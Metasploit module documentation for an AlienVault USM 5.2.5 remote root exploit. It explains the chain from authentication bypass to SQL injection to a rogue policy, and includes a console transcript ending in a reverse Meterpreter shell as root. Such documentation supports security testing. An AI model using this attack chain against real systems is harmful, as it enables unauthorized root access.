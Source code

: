## Vulnerable Application

This module exploits object injection, authentication bypass and ip spoofing vulnerabities all together. Unauthenticated users can execute arbitrary commands under the context of the root user.

By abusing authentication bypass issue on gauge.php lead adversaries to exploit object injection vulnerability
which leads to SQL injection attack that leaks an administrator session token. Attackers can create a rogue
action and policy that enables to execute operating system commands by using captured session token. As a final step,
SSH login attempt with a invalid credentials can trigger a created rogue policy which triggers an action that executes
operating system command with root user privileges.

This module was tested against AlienVault USM 5.2.5.

**Vulnerable Application Installation Steps**

Major version of older releases can be found at following URL.
[http://downloads.eu.alienvault.com/c/download](http://downloads.eu.alienvault.com/c/download)

You can download file named as AlienVault-USM_trial_5.2.5.zip which contains a OVA file.
In order to complete installation phase, you have to apply [https://www.alienvault.com/try-it-free](https://www.alienvault.com/try-it-free) .
Once alienvault sales team validate your information, you will be able to complete the installation with your e-mail address.

## Verification Steps

A successful check of the exploit will look like this:

```
msf > use exploit/linux/http/alienvault_exec 
msf exploit(alienvault_exec) > set RHOST 12.0.0.137
RHOST => 12.0.0.137
msf exploit(alienvault_exec) > set LHOST 12.0.0.1 
LHOST => 12.0.0.1
msf exploit(alienvault_exec) > check
[+] 12.0.0.137:443 The target is vulnerable.
msf exploit(alienvault_exec) > exploit 

[*] Started reverse TCP handler on 12.0.0.1:4445 
[*] Hijacking administrator session
[+] Admin session token : PHPSESSID=2gbhp8j5f2af0vu5es5t3083q4
[*] Creating rogue action
[+] Action created: aWbhnZFHqYbUbNW
[*] Retrieving rogue action id
[+] Corresponding Action ID found: D62A1D4A6D3AEEA65F99B606B02197A1
[*] Retrieving policy ctx and group values
[+] CTX Value found: 5E22D6A9E79211E6B8E4000C29F647D7
[+] GROUP Value found: 00000000000000000000000000000000
[*] Creating a policy that uses our rogue action
[+] Policy created: ASdKHQOZVONGzfU
[*] Activating the policy
[+] Rogue policy activated
[*] Triggering the policy by performing SSH login attempt
[+] SSH - Failed authentication. That means our policy and action will be trigged..!
[*] Sending stage (38500 bytes) to 12.0.0.137
[*] Meterpreter session 6 opened (12.0.0.1:4445 -> 12.0.0.137:51674) at 2017-01-31 14:13:49 +0300

meterpreter > getuid
Server username: root
meterpreter >
```
